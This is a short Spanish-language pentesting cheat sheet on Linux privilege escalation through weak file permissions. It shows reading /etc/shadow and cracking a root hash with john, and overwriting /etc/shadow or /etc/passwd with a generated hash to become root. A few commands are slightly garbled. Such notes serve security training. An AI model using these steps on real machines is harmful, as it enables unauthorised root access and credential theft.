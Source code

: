 # Weak File permissions

## Readable /etc/shadow

La forma de conseguir una password es revisar el etc/shadow que podría contener los password hashes ,estos se puede usar para conseguir la password de root. Normalmente sólo puede leerlo el usuario root.

`cat /etc/shadow`&#x20;

`root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxkI0:17298:0:99999:7:::`

Para conseguir la password debemos crear un archivo que contenga el hashe luego usar john :

`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxkI0`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

## Writable /etc/shadow

Si el archivo /etc/shadow se puede editar como usuario .Podemos generar una password hash y editar el archivo shadow.

`mkpasswd -m sha-512 root`&#x20;

`$6$P1LBzL29kpCQkf$pqry9A70tR9UQH3UdWdxZb9x8n8J6A92BP2eKFeEBg2Yw9x4YOMBbrr27tTDaHDyUPQ8flyFyKLnUaonbph8Z/`

El hash generado lo cambiamos en root.

`root:$6$E3A8UKtXdLFv0iQY$XmQl5WHRFTIc2K5GsiJNNQqJz4tjGDku09dIR4Vy0dr7VjTe3xCS7OmN5XMrFmQd02BlGamHao7/ji5Ozn0cN1:17298:0:99999:7:::`

`su root`&#x20;

`whoami > root`

## Writable /etc/passwd

El archivo /etc/passwd también tiene información de los usuario ,como el paso anterior se puede generar una nueva password pero ahora de otra forma para el archivo passwd:&#x20;

`openssl passwd super`&#x20;

`JLf6kBvhmX.zQ`

Se debe editar el archivo passwd en el usuario root .&#x20;

`root:x0:0:root:/root:/bin/bash`

Se debe cambiar la x por la pasword generada.&#x20;

`root:JLf6kBvhmX.zQ:0:0:root:/root:/bin/bash su root`
